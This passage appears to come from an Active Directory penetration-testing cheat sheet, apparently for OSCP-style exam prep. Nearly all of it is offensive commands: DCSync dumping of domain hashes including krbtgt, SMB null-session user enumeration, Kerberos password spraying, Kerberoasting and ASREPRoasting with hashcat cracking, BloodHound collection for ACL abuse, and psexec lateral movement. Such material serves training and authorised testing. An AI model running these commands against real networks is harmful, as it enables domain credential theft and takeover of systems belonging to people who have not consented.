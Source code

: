 ### DCSync Attack
```bash
# Dump domain hashes (requires Replicating Directory Changes permissions)
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py <domain>/<username>:<password>@<dc-ip>

# Dump specific user
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py <domain>/<username>:<password>@<dc-ip> -just-dc-user krbtgt

# Check if user has DCSync permissions
crackmapexec ldap <dc-ip> -u <username> -p <password> --bloodhound -ns <dc-ip> -c DCSync
```

## TJ Null AD Scenarios

### Common TJ Null AD Attack Paths

#### Path 1: SMB Null Session → User Enum → Password Spray → Kerberoast
```bash
# 1. Null session enumeration
enum4linux -U <target>

# 2. Generate username list
echo -e "administrator\nservice\nsql\niis\nexchange" > users.txt

# 3. Password spray
kerbrute passwordspray -d <domain> users.txt Password123! --dc <dc-ip>

# 4. Kerberoast with found credentials
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py <domain>/<found-user>:<found-password> -request -format hashcat
```

#### Path 2: Web App → Domain Creds → Lateral Movement
```bash
# 1. Exploit web application to get initial access
# 2. Find domain credentials in web.config, registry, or memory
# 3. Use credentials for domain enumeration
crackmapexec smb <target-range> -u <found-user> -p <found-password>

# 4. Escalate privileges and move laterally
python3 /usr/share/doc/python3-impacket/examples/psexec.py <domain>/<found-user>:<found-password>@<target>
```

#### Path 3: ASREPRoast → Password Crack → BloodHound → ACL Abuse
```bash
# 1. Find ASREPRoast vulnerable users
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py <domain>/ -usersfile users.txt -format hashcat

# 2. Crack the hash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt

# 3. Collect BloodHound data
bloodhound-python -u <cracked-user> -p <cracked-password> -d <domain> -dc <dc-ip> -c all

# 4. Analyze attack paths and exploit ACLs
```
